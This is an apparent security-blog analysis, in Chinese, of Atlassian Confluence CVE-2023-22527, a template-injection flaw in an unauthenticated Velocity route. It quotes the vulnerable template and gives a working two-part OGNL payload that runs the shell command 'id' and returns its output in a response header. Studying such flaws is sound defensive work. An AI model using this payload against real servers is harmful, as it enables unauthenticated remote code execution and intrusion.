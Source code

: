 

# Atlassian Confluence CVE-2023-22527 分析及武器化实现 - 先知社区

Atlassian Confluence CVE-2023-22527 分析及武器化实现

- - -

# 0-0 参考文献

[Atlassian Confluence 模板注入代码执行漏洞（CVE-2023-22527） - 先知社区](https://xz.aliyun.com/t/13351?time__1311=mqmxnDBG0QIxcDBqDTeeqBIoK7uktlliiGoD&alichlgref=https%3A%2F%2Fwww.google.com%2F)  
[Bypassing OGNL sandboxes for fun and charities](https://github.blog/2023-01-27-bypassing-ognl-sandboxes-for-fun-and-charities/?ref=blog.projectdiscovery.io#strutsutil:~:text=(PageContextImpl)\-,For%20Velocity%3A,-.KEY\_velocity.struts2.context)

# 0-1 简要分析

漏洞点源自于`/template/aui/text-inline.vm`路由的一个未授权访问，这是一个 velocity 模板文件，该模板文件内容如下

```plain
#set( $labelValue = $stack.findValue("getText('$parameters.label')") )
#if( !$labelValue )
    #set( $labelValue = $parameters.label )
#end

#if (!$parameters.id)
    #set( $parameters.id = $parameters.name)
#end

<label id="${parameters.id}-label" for="$parameters.id">
$!labelValue
#if($parameters.required)
    <span class="aui-icon icon-required"></span>
    <span class="content">$parameters.required</span>
#end
</label>

#parse("/template/aui/text-include.vm")
```

漏洞点自然就在`$stack.findValue("getText('$parameters.label')`明显的一段 OgnlStack 的 findValue 操作，那么 label 参数就会被 ognl 解析。因此 payload 第一段为

```plain
label=aaa\u0027%2b#request.get(\u0027.KEY_velocity.struts2.context\u0027).internalGet(\u0027ognl\u0027).findValue(#parameters.poc[0],{})%2b\u0027
```

用 unicode 是为了防止 url 编码导致参数传入失败。并且 Ognl 是支持 unicode 编码的。之后就是 poc 的第二段

```plain
poc=@org.apache.struts2.ServletActionContext@getResponse().setHeader('Cmd-Responses-Header',(new freemarker.template.utility.Execute()).exec({"id"}))
```

